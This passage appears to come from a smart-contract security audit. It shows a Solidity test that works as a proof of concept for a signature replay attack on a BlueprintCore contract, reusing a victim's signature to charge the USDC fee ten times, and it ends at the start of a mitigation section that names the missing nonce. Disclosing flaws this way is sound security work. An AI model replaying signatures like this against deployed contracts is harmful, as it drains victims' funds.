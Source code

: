 ```solidity
        blueprintCore.updateWorkerDeploymentConfigWithSig(
            address(mockUSDC),
            projectId,
            generatedRequestID,
            updatedBase64Config,
            signature
        );
        (BlueprintCore.Status statusAfterReplay, ) = blueprintCore.requestDeploymentStatus(generatedRequestID);
        assertEq(uint256(statusAfterReplay), uint256(BlueprintCore.Status.Pickup));
        // Attacker just let the victim pay the fee a 2nd time
        assertEq(mockUSDC.balanceOf(victimSigner), 800 * USDC_DECIMALS);
        assertEq(mockUSDC.balanceOf(feeCollectionWallet), 200 * USDC_DECIMALS);


        // -- Can the attacker just keep replaying the sig to drain the signer's balance?? -- //
        vm.prank(address(0xdeadbeef));
        for (int i = 0; i < 8; i++) { // Let's try 8 more times //
            blueprintCore.updateWorkerDeploymentConfigWithSig(
                address(mockUSDC),
                projectId,
                generatedRequestID,
                updatedBase64Config,
                signature
            );

            (BlueprintCore.Status statusAfterReplayIter, ) = blueprintCore.requestDeploymentStatus(generatedRequestID);
            assertEq(uint256(statusAfterReplayIter), uint256(BlueprintCore.Status.Pickup));

        }

        // Lets check if we just let the victim pay the fee 10 times instead of once
        assertEq(mockUSDC.balanceOf(victimSigner), 0);
        assertEq(mockUSDC.balanceOf(feeCollectionWallet), 1000 * USDC_DECIMALS);

        console.log("Signature replay successful: Attacker reused signature and let the victim pay the fee 10 times instead of once");

        // ---------------------------------------------------------------------- //
        // -- This attack could have been avoided by adding a nonce to the sig -- //
        // ----------       To check if the sig has been used       ------------- //
        // ---------------------------------------------------------------------- //
    }
}
```

### Mitigation

The most effective way to mitigate this issue, is to solve it at the root. This way we don't risk fixing the problem at one area of the code, and leaving another part of the code vulnerable to signature replay attacks.
